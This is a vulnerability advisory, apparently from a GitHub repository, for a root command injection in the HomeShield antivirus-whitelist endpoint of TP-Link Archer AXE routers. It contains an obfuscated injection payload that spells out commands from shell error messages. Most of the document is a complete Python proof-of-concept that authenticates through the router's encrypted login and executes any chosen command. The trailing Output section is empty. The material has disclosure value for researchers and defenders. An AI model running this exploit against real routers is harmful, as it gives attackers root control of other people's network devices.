


# TP-Link Archer Series HomeShield Module Command Injection

A command injection vulnerability exists in the `/admin/smart_network?form=tmp_avira` endpoint which allows an attacker to inject arbitrary commands as root.

## Details

*   **Vendor**: TP-Link

*   **Product**: Archer AXE Series Firmware

*   **Vulnerability Type**:
    * CWE-78: Improper Neutralization of Special Elements used in an OS Command

 *  **CVE ID**: CVE-2026-22225

*   **Reported by**: dwbruijn

## Vulnerable Code



The `update_antivirus_white_list` function is being called 
with the attacker-controlled `mac` param. The unsanitized `mac` variable is then directly concatinated with a string which is then passed to `os.execute()` thus leading to command injection.
`mac` is being uppercased before the call which makes injection a bit more tricky but not impossible (since busybox/sh/bash is case sensitive). We can't submit any alphabetic characters in our mac field because that won't be recognized as a valid command by the shell, so my approach was to force the shell to generate error messages and craft commands from the error message's characters. Of course multiple error messages can be chained to produce different commands.
As an example, here's the payload that I used in the PoC for the mac input field: `;_1=$(/ 2>&1);${_1:11:1}${_1:18:1} > /test.txt;`. This generates an error message: `sh: /: Permission denied` and stores it in variable `$_1` which we can reference using string substring extraction as follows: `${_1:11:1}` is the letter "i", `${_1:18:1}` is the letter "d", so the command `id` will execute and its output is stored in file `/TEST.TXT`.

## PoC

```python
#!/usr/bin/python3

import argparse
import requests
import binascii, base64, os, re, json, sys, time, math, random, hashlib
from Crypto.Cipher import AES, PKCS1_v1_5
from Crypto.PublicKey import RSA
from Crypto.Util.Padding import pad, unpad
from urllib.parse import urlencode

class WebClient(object):
    def __init__(self, target, password):
        self.target = target
        self.password = password.encode('utf-8')
        self.password_hash = hashlib.md5(('admin%s'%password).encode('utf-8')).hexdigest().encode('utf-8')
        self.aes_key = (str(time.time()) + str(random.random())).replace('.','')[0:AES.block_size].encode('utf-8')
        self.aes_iv = (str(time.time()) + str(random.random())).replace('.','')[0:AES.block_size].encode('utf-8')

        self.stok = ''
        self.session = requests.Session()

        data = self.basic_request('/login?form=auth', {'operation':'read'})
        if data['success'] != True:
            print('[!] unsupported router')
            return
        self.sign_rsa_n = int(data['data']['key'][0], 16)
        self.sign_rsa_e = int(data['data']['key'][1], 16)
        self.seq = data['data']['seq']

        data = self.basic_request('/login?form=keys', {'operation':'read'})
        self.password_rsa_n = int(data['data']['password'][0], 16)
        self.password_rsa_e = int(data['data']['password'][1], 16)

        self.stok = self.login()


    def aes_encrypt(self, aes_key, aes_iv, aes_block_size, plaintext):
        cipher = AES.new(aes_key, AES.MODE_CBC, iv=aes_iv)
        plaintext_padded = pad(plaintext, aes_block_size)
        return cipher.encrypt(plaintext_padded)


    def aes_decrypt(self, aes_key, aes_iv, aes_block_size, ciphertext):
        cipher = AES.new(aes_key, AES.MODE_CBC, iv=aes_iv)
        plaintext_padded = cipher.decrypt(ciphertext)
        plaintext = unpad(plaintext_padded, aes_block_size)
        return plaintext


    def rsa_encrypt(self, n, e, plaintext):
        public_key = RSA.construct((n, e)).publickey()
        encryptor = PKCS1_v1_5.new(public_key)
        block_size = int(public_key.n.bit_length()/8) - 11
        encrypted_text = ''
        for i in range(0, len(plaintext), block_size):
            encrypted_text += encryptor.encrypt(plaintext[i:i+block_size]).hex()
        return encrypted_text


    def basic_request(self, url, post_data, files_data={}):
        res = self.session.post('http://%s/cgi-bin/luci/;stok=%s%s'%(self.target,self.stok,url), data=post_data, files=files_data)
        return json.loads(res.content)


    def encrypted_request(self, url, post_data):
        serialized_data = urlencode(post_data)
        encrypted_data = self.aes_encrypt(self.aes_key, self.aes_iv, AES.block_size, serialized_data.encode('utf-8'))
        encrypted_data = base64.b64encode(encrypted_data)

        signature = ('k=%s&i=%s&h=%s&s=%d'.encode('utf-8')) % (self.aes_key, self.aes_iv, self.password_hash, self.seq+len(encrypted_data))
        encrypted_signature = self.rsa_encrypt(self.sign_rsa_n, self.sign_rsa_e, signature)

        res = self.session.post('http://%s/cgi-bin/luci/;stok=%s%s'%(self.target,self.stok,url), data={'sign':encrypted_signature, 'data':encrypted_data})
        if(res.status_code != 200):
            print('[!] url "%s" returned unexpected status code %d'%(url, res.status_code))
            return None
        encrypted_data = json.loads(res.content)
        encrypted_data = base64.b64decode(encrypted_data['data'])
        data = self.aes_decrypt(self.aes_key, self.aes_iv, AES.block_size, encrypted_data)
        return json.loads(data)


    def login(self):
        post_data = {'operation':'login', 'password':self.rsa_encrypt(self.password_rsa_n, self.password_rsa_e, self.password)}
        data = self.encrypted_request('/login?form=login', post_data)
        if data['success'] != True:
            print('[!] login failed')
            return
        print('[+] logged in, received token (stok): %s'%(data['data']['stok']))
        return data['data']['stok']

arg_parser = argparse.ArgumentParser(
    description='TP-Link Archer AXE75 - HomeShield Command Injection Exploit',
    epilog='Example: python3 exploit.py -t 192.168.0.1 -p admin123 -c <command>'
)
arg_parser.add_argument('-t', metavar='target', help='IP address of TP-Link router', required=True)
arg_parser.add_argument('-p', metavar='password', help='Admin password', required=True)
arg_parser.add_argument('-c', metavar='cmd', default='id > /test.txt', help='Command to execute (default: id > /tmp/poc.txt)')
arg_parser.add_argument('--protection-type', default='web', choices=['web', 'intrusion', 'iot'], 
                       help='Protection type (default: web)')
arg_parser.add_argument('-v', '--verbose', action='store_true', help='Verbose output')
args = arg_parser.parse_args()

print("[*] TP-Link Archer - Avira Antivirus Whitelist Command Injection Exploit")
print("[*] Target: %s" % args.t)
print("[*] Command: %s" % args.c)
print()

# Initialize client and login
client = WebClient(args.t, args.p)

if len(client.stok) == 0:
    print("[!] Authentication failed")
    sys.exit(-1)

malicious_mac = args.c

if args.verbose:
    print("[DEBUG] Malicious MAC: %s" % malicious_mac)


payload_data = {
    "protection_type": args.protection_type,
    "white_list": [
        {
            "mac": malicious_mac,
            "name": "payload",
            "client_type": "wireless"
        }
    ]
}

if args.verbose:
    print("[DEBUG] Payload data:")
    print(json.dumps(payload_data, indent=2))

print("[*] Sending exploit payload to /admin/smart_network?form=tmp_avira...")

# Send the payload
# Endpoint: /admin/smart_network
# Form: tmp_avira
# Operation: add_sec_whitelist (maps to tmp_add_sec_whitelist function)
# Operation: remove_sec_whitelist can be used to achieve the same goal
try:
    resp = client.encrypted_request(
        '/admin/smart_network?form=tmp_avira',
        {
            'operation': 'add_sec_whitelist',
            'data': json.dumps(payload_data)
        }
    )
    
    if resp is None:
        print("[!] Request failed - no response received")
        sys.exit(-1)
    
    if args.verbose:
        print("[DEBUG] Response:")
        print(json.dumps(resp, indent=2))
    
    if resp.get('success') == True:
        print("[+] Exploit sent successfully!")
        print("[+] Command executed: %s" % args.c)
        print()
        print("[*] Exploitation complete!")
    else:
        print("[!] Exploit may have failed")
        print("[!] Response: %s" % resp)
        
except Exception as e:
    print("[!] Exploit failed with error: %s" % str(e))
    if args.verbose:
        import traceback
        traceback.print_exc()
    sys.exit(-1)
```

### Output


